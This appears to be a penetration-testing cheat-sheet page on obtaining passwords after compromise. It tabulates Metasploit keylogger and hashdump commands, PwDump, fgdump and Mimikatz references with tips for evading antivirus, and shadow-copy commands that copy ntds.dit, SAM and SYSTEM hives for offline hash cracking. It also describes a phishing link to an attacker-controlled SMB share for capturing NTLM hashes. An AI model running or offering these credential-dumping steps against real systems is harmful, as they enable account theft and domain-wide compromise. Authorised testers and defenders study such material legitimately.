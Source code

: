 ```yaml
---
title: Obtaining Passwords
category: Post-Exploitation
order: 6
---
```


> **What to Grab** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Metasploit hashdump | meterpreter > hashdump (from memory) <br> meterpreter > run hashdump (hash and syskey from registry)
Mimikatz |  https://www.offensive-security.com/metasploit-unleashed/Mimikatz/ <br> https://www.christophertruncer.com/golden-ticket-generation/ <br> http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html <br> http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
Volume Shadow Copy Service (domain controller) |  Obtain from : <br> https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs <br> https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py  <br> <code> > cscript vssown.vbs /status or /start or /create /c <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak <br> > copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak <br> Analyze with http://csabarta.com/downloads/ntds_dump_hash.zip
Sniff (Kannan, ntlm, ms kerberos) | E-mail with link: <br> file://[AttackerIP]/[AttackerShare] <br> Sniff the traffic between victim and client for challenge and response"


